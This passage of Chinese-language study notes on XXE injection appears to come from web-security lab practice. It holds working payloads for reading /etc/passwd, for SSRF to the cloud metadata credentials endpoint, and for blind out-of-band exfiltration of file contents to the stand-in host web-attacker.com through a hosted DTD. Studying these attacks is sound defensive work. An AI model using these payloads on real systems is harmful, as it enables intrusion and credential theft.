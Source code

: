 参数实体可以理解为DTD内部的局部变量.
```xml
<!ENTITY % 实体名称 "实体的值">
``` 
在某些时候,无法在xml数据结构中使用实体,这时候可以使用参数实体来触发外部实体解析.   
![](2022-11-01-11-31-45.png)  
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://je1ulpppm7ftdo6vmgcv1lkg57bxzm.oastify.com"> %xxe; ]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```
### 外部实体注入
XXE的原理也是因为DTD外部实体的特性导致可以文件读取,SSRF,RCE等.  
在不同的语言中,URI支持的外部实体协议有所不同.  
![](2022-11-01-10-38-42.png)  
在php中,某些协议需要特定的扩展支持.  
![](2022-11-01-10-39-52.png)  
同时在php中对xml数据支持使用的是libxml库,而在2.9.1版本之后已经默认不解析外部实体.
## Expolit
### File Read
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>  
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
![](2022-11-01-10-59-54.png)
### SSRF
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
![](2022-11-01-11-02-37.png)
### Port Scan
方式与SSRF相同,根据响应来判断IP是否存活,端口是否开放.
### RCE
需要php安装expect扩展.
### DDOS
循环引用导致DDOS
## Blind XXE
常规XXE中可以直接得到XML解析的结果,而Blind XXE即响应中没有相应的结果,无法判断执行情况.
### Data out-of-band
数据带外通道可以在没有回显的情况下通过其它方式将解析结果显示出来.
1. 首先在恶意服务器上托管一个DTD文件
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```  
2. 插入如下payload加载该外部DTD文件
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```